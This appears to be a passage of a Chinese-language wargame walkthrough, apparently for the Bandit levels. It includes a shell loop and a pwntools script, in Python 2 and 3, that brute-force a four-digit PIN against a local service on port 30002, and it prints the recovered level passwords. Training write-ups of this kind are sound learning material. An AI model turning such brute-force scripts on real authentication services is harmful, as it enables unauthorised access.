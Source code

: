   ```
  cat res18 | nc localhost 30002 >> ans
  sleep 5
  cat res19 | nc localhost 30002 >> ans
  sleep 5
  cat res20 | nc localhost 30002 >> ans
  sleep 5
  cat res21 | nc localhost 30002 >> ans
  done
  ```
  
- ```python
  ## python2写法
  from pwn import *
  
  r = remote('localhost', 30002)
  for i in range(0, 10):
      for j in range(0, 10):
          for k in range(0, 10):
              for p in range(0, 10):
                  flag = str(i) + str(j) + str(k) + str(p)
                  s = "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 "+ flag
                  r.sendline(s)
                  response = r.recvline().decode() # 注意要解码
                  if 'Wrong!' not in response:
                      print 'Correct! ' + response
                
    # python3 写法
  from pwn import *
  
  r = remote('localhost', 30002)
  for i in range(0, 10):
      for j in range(0, 10):
          for k in range(0, 10):
              for p in range(0, 10):
                  flag = str(i) + str(j) + str(k) + str(p)
                  s = "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 "+ flag
                  r.sendline(s)
                  response = r.recvline().decode()
                  if 'Wrong!' not in response:
                      print ('Correct! ' + response)
                      
                      # 获得密码iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
  ```
  
- 
  
- 获得所有结果存到ans文件中

- grep -A 2 "Correct!" ans

-     -A 查询之后 。-B查询之前

- 获得密码：iCi86ttT4KSNe1armKiwbQNmB3YJP3q4





## lv25-26

* 目标：
  ```